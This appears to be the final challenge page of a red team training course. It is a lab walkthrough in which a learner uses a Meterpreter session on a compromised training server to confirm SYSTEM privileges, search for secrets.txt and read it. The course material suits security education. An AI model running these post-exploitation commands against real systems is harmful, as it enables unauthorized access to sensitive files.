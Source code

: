 # **Challenge 8: Finding Sensitive Files**
!!! note ""
## **Procedure:**

With access gained on the final target server, the last step is to grab the flag and claim victory. 

- Using your Meterpreter shell, search the target server for a file named secrets.txt .
- Read the contents of the file, and include them in your report.

    **Note**: If you have found the filepath but get errors trying to open the file, it is likely a syntax issue. Using Windows-style filepaths in a Linux command line can be difficult, since Windows uses backslashes instead of forward slashes in paths, which your command line will interpret as an escape sequence instead of a literal backslash.  There are two good workarounds for this:

    - Put quotes around the filepath in your command, like "C:\Windows\system32\file.txt"
    - Alternatively, you can use double slashes in place of the forward slashes: C:\\Windows\\system32\\file.txt

## **Solution:**

### Finding the file secrets.txt.

```bash linenums="1" hl_lines="1 2"
meterpreter > getsystem
[-] Already running as SYSTEM
meterpreter > search -f secrets.txt
Found 1 result...
=================

Path                          Size (bytes)  Modified (UTC)
----                          ------------  --------------
c:\Windows\debug\secrets.txt  55            2022-11-05 22:01:13 +0000

```
### Reading the file secrets.txt.

```bash linenums="1" hl_lines="1 3 9"
meterpreter > cat c:\\Windows\\debug\\secrets.txt
Congratulations! You have finished the red team course!meterpreter > 
```

![alt text](images/Pasted%20image%2020240508010646.png)

## Congratulations! You have finished the red team course!

<div id="disqus_thread"></div>
<script>
    /**
    *  RECOMMENDED CONFIGURATION VARIABLES: EDIT AND UNCOMMENT THE SECTION BELOW TO INSERT DYNAMIC VALUES FROM YOUR PLATFORM OR CMS.
    *  LEARN WHY DEFINING THESE VARIABLES IS IMPORTANT: https://disqus.com/admin/universalcode/#configuration-variables    */
    /*
    var disqus_config = function () {
    this.page.url = PAGE_URL;  // Replace PAGE_URL with your page's canonical URL variable
    this.page.identifier = PAGE_IDENTIFIER; // Replace PAGE_IDENTIFIER with your page's unique identifier variable
    };
    */
    (function() { // DON'T EDIT BELOW THIS LINE
    var d = document, s = d.createElement('script');
    s.src = 'https://hcoco1-1.disqus.com/embed.js';
    s.setAttribute('data-timestamp', +new Date());
    (d.head || d.body).appendChild(s);
    })();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

!!! note ""

<div class="button-container" markdown="1">
<a href="/Career-Simulation-3/challenge_6/" class="md-button md-button--primary">Previous: Challenge 6</a>
<a href="/Career-Simulation-3/" class="md-button md-button--secondary">Home 🏠</a>
<a href="/Career-Simulation-3/report/" class="md-button md-button--primary">Next: Report</a>
</div>


